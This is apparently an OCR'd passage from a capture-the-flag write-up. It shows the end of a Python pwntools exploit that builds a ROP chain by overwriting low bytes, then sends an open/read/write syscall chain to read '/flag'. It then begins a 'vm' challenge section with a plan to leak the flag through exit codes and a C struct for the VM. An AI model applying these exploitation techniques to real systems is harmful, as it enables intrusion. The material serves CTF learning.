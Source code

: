 ```python
		write_low_bit(low_bit,0x57-8*(rop_chain_len-1-i))
		p.recvuntil("enter your code:\n")
		p.sendline('\x00'+p64(rop_chain[i-1])+p64(rop_chain[i])[:6])
		p.recvuntil("continue?\n")
		p.send('y')
	
	write_low_bit(low_bit,0)
	
	p.recvuntil("enter your code:\n")
	p.sendline('')
	p.recvuntil("continue?\n")
	p.send('n')
	
	
	payload = "/flag".ljust(0x30,'\x00')
	payload += flat([
		p_rax,2,p_rdi,stack,p_rdx_rsi,0,0,syscall_ret,
		p_rdi,3,p_rdx_rsi,0x80,stack+0x200,p_rax,0,syscall_ret,
		p_rax,1,p_rdi,1,syscall_ret
	])
	
	p.send(payload.ljust(0x100,'\x00'))
	
	
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	# elf = ELF("./bf",checksec=False)
	main(args['REMOTE'])

```

## vm

read the flag and use exit code to leak it one by one.

vm structure：

```cpp
typedef struct{
    uint64_t r0;
    uint64_t r1;
    uint64_t r2;
    uint64_t r3;
    uint64_t r4;
    uint64_t r5;
    uint64_t r6;
    uint64_t r7;
    uint64_t* rsp;
    uint64_t* rbp;
    uint8_t* pc;
    uint32_t stack_size;
    uint32_t stack_cap;
}vm;
```
